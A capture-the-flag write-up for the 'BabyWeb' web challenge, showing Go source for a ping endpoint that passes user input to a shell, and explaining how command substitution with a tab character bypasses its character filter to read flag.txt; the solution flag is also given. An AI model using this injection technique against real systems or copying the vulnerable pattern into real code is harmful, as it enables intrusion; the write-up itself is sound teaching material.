




# Web - BabyWeb
- Solved by: @BaeSenseii
- Flag: STANDCON{1nj3ct10n_@+_uR_c0MM@Nd}

## Writeup
Loading the website onto the web browser results in the following app page, which is just some ping tool on the system:



Source code for the web application was provided, and the following snippet shows the code responsible for the ping function:

```bash
http.HandleFunc("/ping", func(w http.ResponseWriter, r *http.Request) {
		ip := r.FormValue("ip")

		if len(ip) > 15 {
			fmt.Fprint(w, "IP address has exceeded the maximum length")
			return
		}

		if strings.ContainsAny(ip, "!\"#%&'+,-/:;<=>?@[\\]^_`|~ ") {
			fmt.Fprint(w, "IP address contains bad characters")
			return
		}

		var cmd *exec.Cmd
		if runtime.GOOS == "windows" {
			cmd = exec.Command("cmd", "/c", "ping "+ip)
		} else {
			cmd = exec.Command("sh", "-c", "ping -c 4 "+ip)
		}
		out, err := cmd.CombinedOutput()
		if err != nil {
			fmt.Fprintf(w, "An error has occurred: %s\n", err.Error())
			w.Write(out)
			return
		}
		fmt.Fprintf(w, htmlBody, out)
	})

```
Looking at the source code, it seems to LOOK like a typical Command Injection vulnerability. However, based on the character whitelist for the ping command, it seems that we can only use the following symbols:
- $
- ()
- %

After doing some random trial and error on the source code, we could trick the machine into running certain Linux commands such as 'hostname' using the 'ip' HTTP variable using the '$()' syntax:




From there, reading the flag.txt file was easy by sending the following HTTP parameter value (%09 or 0x09 is an ASCII representation of the 'Tab' space indentation):

```ip=$(cat%09flag.txt)```

